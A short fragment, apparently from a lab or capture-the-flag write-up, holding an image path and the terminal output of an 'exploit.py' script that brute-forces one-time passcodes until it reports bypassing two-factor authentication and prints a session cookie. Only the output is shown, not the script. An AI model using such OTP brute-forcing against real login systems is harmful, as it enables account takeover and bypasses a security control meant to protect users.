 ```bash
$ python3 exploit.py
Trying OTP: 1336
DEBUG: OTP submission response status code: 302
Unsuccessful OTP attempt, redirected to login page. OTP: 1336
Trying OTP: 1337
DEBUG: OTP submission response status code: 302
Session cookies: {'PHPSESSID': 'tg989k9err99uihdp8mca8ssdc'}
Successfully bypassed 2FA with OTP: 1337
```